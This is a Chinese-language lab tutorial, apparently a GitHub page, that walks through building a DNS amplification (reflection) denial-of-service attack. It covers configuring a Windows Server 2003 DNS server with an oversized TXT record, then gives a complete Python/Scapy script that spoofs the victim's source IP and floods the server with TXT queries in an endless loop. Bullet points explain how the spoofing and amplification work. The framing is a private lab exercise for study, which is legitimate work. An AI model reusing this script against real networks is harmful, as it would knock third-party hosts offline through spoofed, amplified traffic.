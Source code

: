 <h1>实验环境</h1>
<div>DNS服务器（10.61.1.175）：windows server 2003及自带的DNS服务器；
攻击机（10.61.1.177）：需要Python+scapy环境；
被攻击机（10.61.1.157）：网络连接正常的机器；</div>
<h1>搭建DNS服务器</h1>
<div>如何在win2003环境下搭建DNS服务器，网上教程一大把，自行查找。此处其实是在DNS服务器上创建一个异常（超大）的TXT记录，当黑客查询请求这条记录时，DNS服务器返回这条超长的TXT记录，达到放大攻击流量的效果。
<ul>
	<li>创建一个test.com域；</li>
	<li>在test.com域下新建主机，记录类型为A，记录名称为www，设置IP为10.61.1.175；</li>
	<li>在test.com域下新建资源记录，记录类型为TXT，记录名称为www，设置文件为任意一个字符串，长度尽量大，据说最大是4000字节；</li>
</ul>
</div>

<h1>DNS放大攻击脚本</h1>

	#!/usr/bin/env python
	from scapy.all import *
	a = IP(dst="10.61.1.175",src="10.61.1.157")
	b = UDP(dport=53)
	c = DNS(id=1,qr=0,opcode=0,tc=0,rd=1,qdcount=1,ancount=0,nscount=0,arcount=0)
	c.qd=DNSQR(qname="www.test.com",qtype="TXT",qclass="IN")
	p = a/b/c
	while 1:
		send(p)

<ul>
	<li>由于UDP的无连接性，可以实现反射攻击的目的，在IP层伪造源IP为被攻击机的IP地址10.61.1.157，目的IP就是DNS服务器的IP地址10.61.1.175;</li>
	<li>DNS服务器的服务器端口是53，在UDP层将目的端口设置为53;</li>
	<li>查询域名是www.test.com，查询的类型为TXT，也就是请求查询我们在DNS服务器上恶意设置的TXT记录，实现放大目的。</li>


* https://www.bilibili.com/video/BV13S4y1S7u9/
